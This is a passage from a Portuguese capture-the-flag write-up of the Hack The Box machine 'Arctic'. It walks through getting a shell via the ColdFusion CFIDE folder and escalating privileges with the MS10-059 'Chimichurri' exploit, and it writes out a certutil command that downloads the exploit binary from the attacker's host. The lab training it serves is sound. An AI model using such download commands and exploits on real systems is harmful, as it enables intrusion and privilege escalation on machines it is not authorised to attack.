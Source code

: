 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit11.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_agendado.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_down.png)

#### Entramos na pasta CFIDE

> http://10.10.10.11:8500/CFIDE/

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit12.png)

#### Executamos e ganhamos um shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_exploit13.png)

# Escalando privilégio

### Rodamos o comando `systeminfo` e copiamos para um arquivo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_systeminfo.png)

### Utilizaremos o `windows exploit suggester` pra verificar exploits para essa máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_sug.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_sug1.png)

### Verificamos que temos um monte de vulnerabilidades que podem ser exploradas, iremos explorar a *MS10-059*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_chimi.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_chimi1.png)

### Fazemos o downlaod do executável para dentro da máquina (vamos treinar mais de um modo)

#### Primeiro modo `certutil`

> certutil.exe -urlcache -split -f http://10.10.16.119/Chimichurri.exe Chimichurri.exe

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-arctic/Arctic_chimi2.png)

#### Segundo modo `Impacket-SMB Server`
